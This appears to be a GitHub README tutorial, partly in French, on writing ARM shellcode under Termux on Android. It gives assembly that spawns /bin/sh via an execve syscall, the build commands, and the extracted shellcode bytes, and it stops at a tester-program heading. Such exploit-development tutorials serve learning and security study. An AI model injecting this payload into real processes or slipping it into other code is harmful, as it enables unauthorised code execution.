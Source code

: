# Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

